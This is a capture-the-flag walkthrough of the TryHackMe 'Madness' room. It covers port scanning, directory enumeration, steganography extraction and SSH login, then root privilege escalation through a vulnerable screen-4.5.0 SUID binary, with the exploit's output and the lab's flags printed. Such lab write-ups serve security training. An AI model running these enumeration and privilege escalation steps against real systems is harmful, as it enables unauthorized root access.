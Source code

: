 # Madness

Will you be consumed by Madness?

Note from creator: Please note this challenge does not require SSH brute forcing.

Room URL: https://tryhackme.com/room/madness

---

Only two open ports.

```
$ nmap -sC -sV 10.10.150.122
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-31 20:59 CEST
Nmap scan report for 10.10.150.122
Host is up (0.051s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ac:f9:85:10:52:65:6e:17:f5:1c:34:e7:d8:64:67:b1 (RSA)
|   256 dd:8e:5a:ec:b1:95:cd:dc:4d:01:b3:fe:5f:4e:12:c1 (ECDSA)
|_  256 e9:ed:e3:eb:58:77:3b:00:5e:3a:f5:24:d8:58:34:8e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# Task 1

1. user.txt

Let's see what's possibly there on the webserver.

```
$ gobuster dir -w ~/projects/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.150.122/ -x php,htm,txt,html,py
```

Just an `index.php` file. I can see a broken jpg image in the top left corner..
Opening it in any picture viewer doesn't help. Hexdump shows a PNG header but it
has a JPG file extension. Clearly it won't open like this. What about changing
the header to be JPG? Thanks to [Gary
Kessler](https://www.garykessler.net/library/file_sigs.html) this is an easy
job. By replacing the first 8 bytes (PNG) with the default bytes for JPG/JPEG
we are returned a working image and it shows a hidden directory.
`89 50 4E 47 0D 0A 1A 0A` became `FF D8 FF E0 00 10 4A 46 49 46`

A page is returned with a hint in its source:

```html
<p>To obtain my identity you need to guess my secret! </p>
<!-- It's between 0-99 but I don't think anyone will look here-->
```

Considering it's a PHP page again, let's append `?secret=n` to the URI. Where
`n` is in range of `0` and `99`. Let's run a simple curl against this. The magic
number seems to be 73.

```html
<p>Urgh, you got it right! But I won't tell you who I am! y2RPJ4QaPF!B</p>
```

Running steghide against the fixed JPG file we retrieve a file `hidden.txt`
which contains a username: `wbxre` which looks to be ROT13 encoded. A quick
search returns this to be `joker`.

So does this combination of username and password help us log in to the box?
Nope. To get past this point I had to look at someone else's writeup. Seems the
image embedded in the task contains some steganography too.

```bash
$ wget https://i.imgur.com/5iW7kC8.jpg
$ steghide extract -sf 5iW7kC8.jpg
$ cat password.txt
```

There's a working SSH password in there! After SSH'ing into the box, we can
grab the flag:

```
joker@ubuntu:~$ cat user.txt
THM{d5781e53b130efe2f94f9b0354a5e4ea}
```

2. root.txt

So now that we're on the box, we should try and find a way up to root. With
`find` I could find some binaries with the suid flag owned by root:

```bash
$ find / -perm /4000 -user root
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/vmware-user-suid-wrapper
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/sudo
/bin/fusermount
/bin/su
/bin/ping6
/bin/screen-4.5.0
/bin/screen-4.5.0.old
/bin/mount
/bin/ping
/bin/umount
```

Here the `screen-4.5.0` and `screen-4.5.0.old` binaries are interesting as
they can be used for local privilege escalation... Let's try to use this
[example](https://www.exploit-db.com/exploits/41154)

And hey presto, we're root.

```
joker@ubuntu:/dev/shm$ chmod +x screenroot.sh
joker@ubuntu:/dev/shm$ ./screenroot.sh
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function ‘dropshell’:
/tmp/libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^
/tmp/rootshell.c: In function ‘main’:
/tmp/rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
     setuid(0);
     ^
/tmp/rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
     setgid(0);
     ^
/tmp/rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
     seteuid(0);
     ^
/tmp/rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
     setegid(0);
     ^
/tmp/rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-joker.

# id
uid=0(root) gid=0(root) groups=0(root),1000(joker)
```

```
# cat /root/root.txt
THM{5ecd98aa66a6abb670184d7547c8124a}
```
